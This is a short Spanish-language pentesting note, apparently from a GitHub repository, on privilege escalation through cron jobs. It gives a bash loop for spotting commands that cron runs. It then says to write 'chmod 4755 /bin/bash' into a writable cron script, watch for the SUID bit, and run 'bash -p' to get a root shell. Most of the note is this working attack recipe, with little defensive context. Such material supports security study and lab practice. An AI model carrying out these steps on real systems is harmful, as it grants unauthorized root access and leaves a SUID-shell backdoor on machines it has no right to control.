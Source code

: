 # Explotación de tareas Cron

Mediante el siguiente script podemos ver las tareas de cron que se estan ejecutando.
```
#!/bin/bash

old_process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff >(echo "$old_process") >(echo "$new_process") | grep "[\>\<]" | grep -v "worker"
        old_process=$new_process
done
```
Una vez identificados los archivos que ejecuta, comprobamos si en alguno tenemos permisos de escritura.
Si el archivo que ejecuta la tarea cron tiene permisos de escritura podremos editar dicho archivo y escribir en el que se ejecute el comando:
```
chmod 4755 /bin/bash
```
Mediante el siguiente comando comprobaremos cuando se ha ejecutado. Este comando muestra por pantalla el resultado de hacer **ls -l /bin/bash** cada segundo.
```
watch -n 1 ls -l /bin/bash
```
Este comando nos muestra el resultado del comando "ls -l /bin/bash" cada segundo.
Una vez se ha ejecutado y el archivo tiene permiso suid ejecutamos el comando bash -p y se spawneará un bash como root.

